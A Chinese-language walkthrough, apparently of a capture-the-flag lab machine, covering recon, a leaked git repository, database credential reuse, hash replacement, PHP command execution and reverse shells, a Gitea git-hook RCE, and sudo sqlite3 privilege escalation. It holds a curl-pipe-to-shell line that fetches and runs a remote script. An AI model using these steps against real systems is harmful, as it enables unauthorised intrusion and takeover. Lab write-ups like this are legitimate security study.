 - 先把主機加入/etc/hosts
  
![](https://hackmd.io/_uploads/ryGl8WTza.png)

- 用nmap掃有開啟甚麼port 有22跟80
  
![](https://hackmd.io/_uploads/B1ufUZazT.png)

- 再用dirsearch看看有沒有甚麼可用資訊 看起來是有git可以用 還有一個backend/auth的網頁
- 
![](https://hackmd.io/_uploads/rknVUbTf6.png)

![](https://hackmd.io/_uploads/HkRqo-afa.png)


- 用gihacker把源碼下載下來
- 
![](https://hackmd.io/_uploads/rJu1DZ6z6.png)

- 看看裡面有什麼可以用的 首先發現adminer.php 連進去後可以進到一個db的登入頁面
- 
![](https://hackmd.io/_uploads/rJ4ot-aGp.png)

- 於是來去翻看看有沒有關於db的資料，在config裡的database.php找到一個用戶的登入密碼

  
![](https://hackmd.io/_uploads/rJLYFbTGT.png)

- 拿到剛剛的登入頁面進行登入，成功登入資料庫
- 
![](https://hackmd.io/_uploads/SknCKW6MT.png)

- 在select backend_user的地方發現一個叫Frank的user
- 
![](https://hackmd.io/_uploads/BkEyhZazp.png)

- 用hash-identifier查看是甚麼類型的加密問不到
- 
![](https://hackmd.io/_uploads/B1-LpW6fa.png)

- 用chatgpt問後發現是BCrypt加密
- 
![](https://hackmd.io/_uploads/S1bdpZ6Mp.png)

- 此時就可以去透過BCrypt去生成自己的密碼並去把它替換掉
- 
![](https://hackmd.io/_uploads/rkfRpWpGa.png)

![](https://hackmd.io/_uploads/B15eAZaza.png)

- 拿去一開始發現的backend/auth網站登入看看 可以成功登入
- 
![](https://hackmd.io/_uploads/H1ESCbafp.png)

- 進去後有CMS系統，CMS（Content Management System）意思是內容管理系統，掌管網站後台的編輯、新增、儲存和組織功能，因此可以去嘗試在裏頭寫入一些惡意code
- 
![](https://hackmd.io/_uploads/HyPF1BRf6.png)

- 先去查看他的phpinfo裡的disable_function有禁用哪些
- 
![](https://hackmd.io/_uploads/r1ac6r0M6.png)

![](https://hackmd.io/_uploads/BkO66BAMa.png)

- 發現沒有禁用system()，嘗試後發現可以使用 能看到id身分 (為什麼1可以，其他數字不行)
- 
![](https://hackmd.io/_uploads/HJGxArCGT.png)


- 去嘗試寫個reverse shell進去 &記得要改成%26不然會被當參數傳過去 bin/bash -c 意思是告訴bash shell執行-c 後面的命令列，允許在不啟動交互式Shell會話的情況下執行單個命令
- 
![](https://hackmd.io/_uploads/B1c-GICMp.png)

- 成功監聽到
- 
![](https://hackmd.io/_uploads/ByjYMI0z6.png)

- 有一個網址沒掃到 用nmap -A 去掃(全面系統檢測、啟用腳本檢測、掃描等) 發現他有開8585 port
- 
![](https://hackmd.io/_uploads/ByhDBUCGa.png)

- 這個也不錯 這樣可以掃1到9999port
- 
![](https://hackmd.io/_uploads/SyVHUIRfT.png)

- 進去後發現gitea 所以可以去找看看有沒有關於gitea的設定
- 
![](https://hackmd.io/_uploads/rJRqIIRMa.png)

- 用Linpeas找看看有什麼可以使用的地方
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![](https://hackmd.io/_uploads/r1ErUwCG6.png)

- 有找到一個像是gitea設定黨的東西
- 
![](https://hackmd.io/_uploads/B1x_zuw0GT.png)

- 可是沒有權限 所以要去找看看有沒有別的可以用
- 
![](https://hackmd.io/_uploads/Hk0L9D0M6.png)

- 還有一個bak檔 這有點像是可以用來復原網站的文件
- 
![](https://hackmd.io/_uploads/Bk_55v0Mp.png)

- 有發現一組db的帳號密碼 把它拿去並登入 就有發現frank gitea的帳號密碼 拿去修改並登入gitea
- 
![](https://hackmd.io/_uploads/rkBvivCMa.png)

- 成功登入gitea
- 
![](https://hackmd.io/_uploads/HyRFTwCfp.png)

- 查看這個的版本號是1.12.5 去查看看有沒有相關漏洞 找到一個RCE的[漏洞](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce)
- 
![](https://hackmd.io/_uploads/rJvvI9Czp.png)

- 在githook加上reverse shell
- 
![](https://hackmd.io/_uploads/ryktO5Czp.png)

- 開啟一個監聽
- 
![](https://hackmd.io/_uploads/BkQJF9RzT.png)

- 然後在readme加個空格然後update
- 
![](https://hackmd.io/_uploads/BJCbY5AGp.png)

- 就成功以frank的身分進入了
- 
![](https://hackmd.io/_uploads/H1mLKqAGa.png)

- sudo -l 發現可以透過sqlite3提權
- 
![](https://hackmd.io/_uploads/Sy2dYqRMp.png)

- 在GTFOBins找sqlite3提權方法
- 
![](https://hackmd.io/_uploads/rkj1jq0Ga.png)

- 貼上後沒有說沒有tty 所以幫他加一個 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![](https://hackmd.io/_uploads/Hk6WoqAMp.png)

- 加上再試試後發現要密碼
- 
![](https://hackmd.io/_uploads/rk_Sj9Rzp.png)

- 去查一下後發現是sudo 的問題 會被擋掉 所以改成sudo -u#-1來繞過他 就可以成功提權了
- 
![](https://hackmd.io/_uploads/ry7XT9Aza.png)

